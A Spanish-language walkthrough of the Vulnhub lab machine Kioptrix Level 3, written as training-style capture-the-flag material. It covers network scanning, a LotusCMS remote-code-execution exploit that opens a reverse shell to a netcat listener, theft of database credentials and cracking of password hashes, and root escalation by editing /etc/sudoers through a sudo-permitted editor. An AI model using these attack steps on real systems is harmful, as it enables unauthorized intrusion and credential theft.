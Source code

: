 ```yaml
---
weigth: 1
title: "Kioptrix Level 3 Walkthrough"
date: 2023-08-14T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-08-14
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources: 
- name: "featured-image"
  src: "preimagenKioptrix3.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix Level 3

## Resolución de la Maquina

### Escaneo y Análisis de Vulnerabilidades

Empezamos con un escaneo a nuestra red local con el comando arp para obtener la ip de nuestra maquina objetivo.

```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Una vez obtenida la ip procedemos a realizar un escaneo con nmap.

```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

Tras realizar el escaneo con nmap vemos que tiene el puerto 80 abierto con un servicio http por lo que vamos a ver que contiene utilizando nuestro buscador en este caso Firefox y vemos la siguiente web.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

En la descripcion de la maquina nos dice que añadamos el dominio [kioptrix3.com](http://kioptrix3.com) a nuestro fichero /etc/hosts para poder ver bien la web por lo que lo abrimos y añadimos lo siguiente:

```bash
192.168.66.161  kioptrix3.com
```

### Explotación

Tras husmear por la pagina vemos que la web esta hecha con LotusCMS

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

Por lo que pasamos a buscar en Google si existe algún exploit para este CMS y encontramos el siguiente:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

lo clonamos a nuestra maquina y ejecutamos

```bash
./lotusRCE.sh kioptrix3.com /

#Introducimos nuestra ip
192.168.66.152 
#El puerto
4444
#En otra terminal iniciamos netcat
nc -nlvp 4444
#selecionamos la opcion 1
1
#obtenemos una shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

Realizamos un tratamiento de la tty para trabajar mas cómodos y poder hacer Ctrl+C

```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

Tras enumerar un rato encontramos el archivo gconfig.php en /home/www/kioptrix3.com/gallery el cual contiene unas credenciales a la base de datos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

Nos logeamos en mysql:

```bash
mysql -uroot -pfuckeyou
```

Y obtenemos las credenciales del usuario admin pero tras realizar unos intentos no nos sirve para cambiar de usuario.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

Pasamos a logearnos en phpmyadmin con las credenciales obtenidas anteriormente.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

y localizamos los hashes de los usuarios de la maquina

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

he utilizado una web online para crackear estos hashes obteniendo la contraseña en texto claro

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

una vez obtenida las credenciales pasamos a conectarnos a través de SSH pero obtenemos un error.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

Para solucionarlo escribimos lo siguiente para conectarnos:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Escalada de Privilegios

Si leemos el fichero CompanyPolicy.README nos dice que han instalado un nuevo software para editar, crear y ver archivos y que para ello utilicemos el comando “sudo ht”.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

Con sudo -l vemos que tenemos permisos para ejecutarlo con sudo.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

si lo ejecutamos de primeras nos saltara un error por lo que tenemos que ejecutar lo siguiente:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

y ejecutamos:

```bash
sudo ht
```

Para abrir un fichero debemos de utilizar las teclas ALT+ F y seleccionar el campo open:

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

Vamos a editar el fichero /etc/sudoers para poder lanzar una Shell como root y así escalar privilegios.

Para ello escribimos /etc/sudoers y damos al enter.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

Añadimos el siguiente comando seguido de los comandos existentes al usuario loneferret para que pueda ejecutarlo con sudo.

```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Pulsamos ALT + F  guardamos y salimos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

Obtenemos una Shell como root:

```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Un saludo y Feliz Hacking :)
